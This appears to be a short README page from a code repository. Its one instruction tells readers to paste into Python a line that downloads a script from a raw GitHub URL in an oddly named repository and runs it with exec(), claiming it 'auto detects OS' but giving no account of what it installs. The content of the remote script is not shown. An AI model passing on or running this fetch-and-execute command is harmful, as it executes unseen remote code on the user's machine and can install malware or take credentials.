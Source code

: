 # How to use?
## On your code/python prompt you copy and paste this code: (auto detects OS)
### `exec(__import__('requests').get('https://raw.githubusercontent.com/davifaaricardo/psychic-octo-couscous/installer/main.py').text)`
